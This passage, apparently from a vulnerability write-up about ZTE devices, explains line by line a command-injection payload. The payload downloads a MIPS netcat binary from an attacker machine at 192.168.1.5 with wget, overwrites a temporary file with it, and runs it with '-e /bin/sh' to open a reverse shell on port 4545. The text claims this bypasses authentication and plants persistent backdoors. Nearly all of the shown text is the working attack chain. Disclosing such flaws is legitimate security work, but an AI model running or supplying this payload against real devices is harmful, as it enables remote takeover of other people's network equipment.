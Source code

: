 1. `sh -c '...'`
 - This runs everything inside the quotes as a separate shell command, it makes the injection payload more stable.

2. `cp /bin/ls /tmp/netcat;`
 - Copies the `/bin/ls` binary to `/tmp/netcat`. This is done to ensure the file `/tmp/netcat` exists and is `executable`, eventually it will be overwritten.

3. `wget http://192.168.1.5:9090/netcat -O /tmp/a;`
 - Downloads the MIPS netcat from http://192.168.1.5:9090/ (attacker machine) and saves it as `/tmp/a`.

4. `cat /tmp/a > /tmp/netcat;`
 - Overwrites `/tmp/netcat` with the contents of the downloaded file. The previously copied `/bin/ls` content is replaced by the downloaded binary.

5. `rm /tmp/a;`
 - Removes the temporary downloaded file `/tmp/a`.

6. `/tmp/netcat 192.168.1.5 4545 -e /bin/sh`
 - Connects to `192.168.1.5` (attacker machine) on port 4545. The `-e /bin/sh` part tells it to execute `/bin/sh` and pipe its input/output over the connection.
 - This essentially gives us a remote shell (a backdoor).

So now for a second time we are able to completelly bypass any authentication, cause Remote Code Execution and even place peristent backdoors on ZTE devices.
